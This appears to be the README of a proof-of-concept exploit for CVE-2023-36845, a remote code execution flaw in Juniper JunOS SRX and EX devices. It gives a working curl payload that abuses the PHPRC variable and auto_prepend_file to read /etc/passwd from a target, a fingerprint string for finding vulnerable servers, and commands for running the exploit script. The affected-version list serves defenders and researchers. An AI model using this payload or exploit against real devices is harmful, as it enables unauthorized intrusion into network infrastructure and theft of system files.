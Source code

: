 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

       __ __  __ _   __ ____ ____   ______ ____         __ __  __ _   __ ____  _____    ____   ______ ______
      / // / / // | / //  _// __ \ / ____// __ \       / // / / // | / // __ \/ ___/   / __ \ / ____// ____/
 __  / // / / //  |/ / / / / /_/ // __/  / /_/ /  __  / // / / //  |/ // / / /\__ \   / /_/ // /    / __/   
/ /_/ // /_/ // /|  /_/ / / ____// /___ / _, _/  / /_/ // /_/ // /|  // /_/ /___/ /  / _, _// /___ / /___   
\____/ \____//_/ |_//___//_/    /_____//_/ |_|   \____/ \____//_/ |_/ \____//____/  /_/ |_| \____//_____/   

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             Written by Ferdi Gül @2023                                              

Usage of ./exploit_CVE-2023-36845.py:
  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com


Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:
All versions prior to 20.4R3-S9;
21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.


Install Requirements:

$ pip install -r requirements.txt


Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h
$ python3 exploit_CVE-2023-36845.py -u http://example.com
